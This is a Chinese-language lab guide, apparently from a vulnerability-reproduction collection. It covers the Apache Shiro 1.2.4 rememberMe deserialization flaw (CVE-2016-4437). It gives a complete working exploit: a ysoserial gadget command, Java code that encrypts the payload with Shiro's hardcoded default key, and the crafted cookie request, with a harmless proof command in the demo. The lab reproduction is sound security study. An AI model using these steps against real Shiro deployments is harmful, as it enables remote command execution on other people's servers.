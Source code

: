# Apache Shiro 1.2.4 反序列化漏洞（CVE-2016-4437）

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 漏洞环境

执行如下命令启动一个使用了Apache Shiro 1.2.4的Web服务：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080`可使用`admin:vulhub`进行登录。

## 漏洞复现

使用ysoserial生成CommonsBeanutils1的Gadget：

```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

使用Shiro内置的默认密钥对Payload进行加密：

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

然后发送包含加密Payload的rememberMe Cookie：

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: rememberMe=<encrypted_payload>

```

可见，`touch /tmp/success`命令已执行：

![](1.png)
